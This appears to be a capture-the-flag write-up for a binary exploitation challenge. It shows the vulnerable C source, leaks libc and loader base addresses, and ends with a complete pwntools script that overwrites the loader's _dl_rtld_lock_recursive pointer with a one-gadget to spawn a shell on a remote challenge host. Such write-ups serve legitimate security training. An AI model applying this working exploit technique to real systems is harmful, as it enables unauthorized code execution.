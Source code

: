 # Write up

Source code of binary is given

```
void get_shell() {
    system("/bin/sh");
}

int main()
{
    long addr;
    long value; 

    initialize();

    printf("stdout: %p\n", stdout);

    printf("addr: ");
    scanf("%ld", &addr);

    printf("value: ");
    scanf("%ld", &value);

    *(long *)addr = value;
    return 0;
}
```

# Primitives

In function **main**, there are arbitary address write primitve and stdout address leak which can lead to libc base and ld base leak. <br>

00000000003c5620 _IO_2_1_stdout_@@GLIBC_2.2.5 => libc base. => vmmap => loader base

For docker build, we can use script below. Point is **--pid=host**. 
```
sudo docker build -t test .
sudo docker run --pid=host -d -p 10001:10001 test
```

So, we got loader base. 

```
gef> p/x 0x00007f540eca8000 - 0x00007f540e8de000
$1 = 0x3ca000
```

Now, we have to get the symbol of libc and loader. Use **readelf** <br>
Found version -> libc6-dbg_2.23-0ubuntu11.3_amd64.deb

```
dpkg -x libc6-dbg_2.23-0ubuntu11.3_amd64.deb ./ 

user@user:~/CTF$ readelf -a usr/lib/debug/lib/x86_64-linux-gnu/ld-2.23.so | grep _rtld_global
   523: 0000000000226040  3968 OBJECT  GLOBAL DEFAULT   21 _rtld_global  
   541: 0000000000225ca0   376 OBJECT  GLOBAL DEFAULT   17 _rtld_global_ro 

gef> p &_rtld_global._dl_rtld_lock_recursive 
$3 = (void (**)(void *)) 0x226f48 <_rtld_local+3848>

user@user:~/CTF$ one_gadget libc-2.23.so
0x4527a execve("/bin/sh", rsp+0x30, environ) 
constraints:  
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv 
 
0xf03a4 execve("/bin/sh", rsp+0x50, environ) 
constraints:  
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv 
  
0xf1247 execve("/bin/sh", rsp+0x70, environ)  
constraints:   
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv      
```

So, if we can overwrite _dl_rtld_lock_recursive function pointer with one gadget, we can get shell

# Exploit

```
from pwn import *

context.log_level = 'debug'

p = remote('host1.dreamhack.games', 17330)

p.recvuntil(b'stdout: ')

libc_base = int(p.recvline()[:-1],16) - 0x3c5620

loader_base = libc_base + 0x3ca000

dl = loader_base + 0x226040 + 3848

og = 0xf1247

p.recvuntil(b'addr: ')
p.sendline(str(dl))
p.recvuntil(b'value: ')
p.sendline(str(libc_base + og))

p.interactive()

```

